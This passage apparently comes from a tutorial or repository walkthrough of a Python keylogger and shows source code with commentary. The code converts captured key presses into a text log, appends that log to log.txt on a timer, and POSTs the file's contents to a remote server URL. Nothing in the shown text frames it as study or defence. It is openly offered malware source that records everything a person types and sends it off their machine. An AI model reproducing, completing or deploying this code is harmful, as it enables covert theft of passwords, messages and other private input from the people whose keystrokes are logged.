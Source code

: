```python
            else:
                # Otherwise, we add the character representation of the key to the log string
                self.string += key.char
        except AttributeError:
            # If the key doesn't have a character representation, we handle some special cases
            # manually, such as the space key and the enter key
            if str(key) == "Key.space":
                self.string += " "
            elif str(key) == "Key.enter":
                self.string += '\n'
            elif str(key) == "Key.shift":
                pass
            else:
                self.string += ' [' + str(key).strip('Key.') + '] '
        except:
            self.string += "??"
```
The `send_log` method is used to send the contents of a log file to the server specified by the `serverURL` attribute. This method takes a `log_file` argument which specifies the name of the log file to send. It first opens the log file for reading and reads the contents of the file into a variable called `log_data`. Then, it sends a `POST` request to the server with the `log_data` as the request body. If the request is successful, it returns `True`. Otherwise, it returns `False`. If an error occurs while sending the request, it returns `False`. This method is used by the `report` method to send the log data to the server.

```python
def send_log(self, log_file):
        # Open the log file for reading
        with open(log_file, "r") as f:
            # Read the contents of the log file
            log_data = f.read()
        try:
            response = requests.post(self.serverURL, data=log_data)
            # Return True if the request was successful (i.e. the server returned a 200 status code),
            # otherwise return False
            return True if response.status_code == 200 else False
        except:
            # If an error occurred while sending the request, return False
            return False
```

The `log` method is used to log key presses to a file. This method creates a new log file if it does not already exist and opens it for writing. It then writes the contents of the `string` attribute to the log file and closes it. This method is called periodically by the `log_timer` timer object.

```python
 def log(self):
        # If the log_timer is not None, cancel it
        if self.log_timer is not None:
            self.log_timer.cancel()

        # Open the log file for appending
        with open("log.txt", "a") as f:
            # Attempt to write the current log string to the log file
            try:
                f.write(self.string)
            except:
                # If an error occurs while writing to the log file, do nothing
                pass

            # Clear the current log string
            self.string = ""

        # Create a new timer object with the specified logTimer interval
```